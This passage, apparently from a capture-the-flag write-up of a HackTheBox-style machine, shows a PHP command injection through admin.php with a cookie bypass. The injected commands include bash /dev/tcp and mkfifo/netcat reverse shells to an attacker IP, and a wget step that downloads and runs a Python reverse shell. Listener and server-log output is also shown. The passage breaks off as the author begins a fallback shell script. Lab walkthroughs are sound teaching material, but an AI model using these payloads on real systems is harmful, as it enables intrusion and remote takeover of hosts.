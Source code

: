 ```

root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode 'html=<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.24/443 0>&1\""); ?>' --cookie adminpowa=noonecares

```

I get a connection back, but it immediately dies:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.27.
Ncat: Connection from 10.10.10.27:47324.
bash: cannot set terminal process group (1376): Inappropriate ioctl for device
bash: no job control in this shell
www-data@calamity:/var/www/html$ root@kali#

```

I tried a different reverse shell, but got the same result:

```

root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode 'html=<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 443 >/tmp/f"); ?>' --cookie adminpowa=noonecares

```

To try a Python reverse shell, rather than try to get the one-liner into `curl` with all the `'` and `"`, I created a file `rev.py` locally with a [python reverse shell](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_backconnect.py), and hosted it with `python3 -m http.server 80`.

I could get the file with `wget` and then execute it:

```

root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode 'html=<?php system("wget 10.10.14.24/rev.py -O /dev/shm/r.py; python /dev/shm/r.py"); ?>' --cookie adminpowa=noonecares

```

I saw the request at my server:

```
10.10.10.27 - - [23/Aug/2020 07:39:03] "GET /rev.py HTTP/1.1" 200 -

```

And then a connection at `nc`, but then it immediately died.

### Script Dumb Shell

Giving up on a reverse shell for now, I wrote a quick silly Bash script to allow me to input commands and get the output:
